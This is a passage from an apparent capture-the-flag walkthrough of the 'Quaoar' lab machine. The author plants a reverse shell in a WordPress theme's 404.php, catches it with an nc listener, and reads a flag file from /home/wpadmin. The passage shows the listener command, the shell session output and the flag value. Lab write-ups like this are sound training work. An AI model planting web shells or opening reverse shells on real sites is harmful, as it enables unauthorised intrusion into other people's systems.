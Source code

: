 <p>To put it in the site, I decided to modify the code of <b>404.php</b> page from the theme. </p>

![Shell](/img/quaoar/wp-shell.png){:class="img-responsive center-block"}

<p>Then, we only have to set up the listener and navigate to the url of the page. </p>

{% highlight html %}
192.168.56.102/wordpress/wp-content/themes/twentyfourteen/404.php
{% endhighlight %}

{% highlight bash %}
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.102] 51795
Linux Quaoar 3.2.0-23-generic-pae #36-Ubuntu SMP Tue Apr 10 22:19:09 UTC 2012 i686 i686 i386 GNU/Linux
 11:00:33 up 40 min,  0 users,  load average: 0.01, 0.05, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
{% endhighlight %}

<p>Let's look for flags! I've found the first one in <b>/home</b> directory. </p>

{% highlight bash %}
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Oct 24  2016 .
drwxr-xr-x 22 root root 4096 Oct  7  2016 ..
drwxr-xr-x  2 root root 4096 Oct 22  2016 wpadmin
$ cd wpadmin
$ ls -la
total 12
drwxr-xr-x 2 root    root    4096 Oct 22  2016 .
drwxr-xr-x 3 root    root    4096 Oct 24  2016 ..
-rw-r--r-- 1 wpadmin wpadmin   33 Oct 22  2016 flag.txt
$ cat flag.txt
2bafe61f03117ac66a73c3c514de796e
{% endhighlight %}
